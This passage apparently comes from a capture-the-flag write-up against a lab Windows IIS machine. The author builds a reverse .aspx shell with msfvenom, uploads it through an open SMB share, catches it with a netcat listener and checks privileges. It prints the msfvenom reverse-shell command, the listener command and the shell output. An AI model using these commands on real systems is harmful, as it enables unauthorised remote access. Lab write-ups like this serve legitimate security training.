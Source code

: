 So we have an SMB share that's open and accessable via the web. I don't know about you but that seems like a great security practice!

Let's try and upload a reverse shell from the command line that we can then trigger through the web browser.

Since this is a Windows machine I use **msfvenom** to create a reverse **.aspx** shell:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<MY IP> LPORT=4444 -f aspx -o shell.aspx`

And then connect back over to the SMB share and upload it:

`put shell.aspx` and `dir`:

```
smb: \> dir
  .                                   D        0  Mon Feb  7 00:06:01 2022
  ..                                  D        0  Mon Feb  7 00:06:01 2022
  shell.aspx                          A     3406  Mon Feb  7 00:28:47 2022
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020
```

<br>

## Getting a shell

Now that we have our shell uploaded and in place I start a listener on my system and then navigate to the shell with my web browser. And we're in!

```
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [MY IP] from (UNKNOWN) [10.10.33.153] 49914
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

Running `whoami`:

```
iis apppool\defaultapppool
```

And a `whoami /priv`:

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
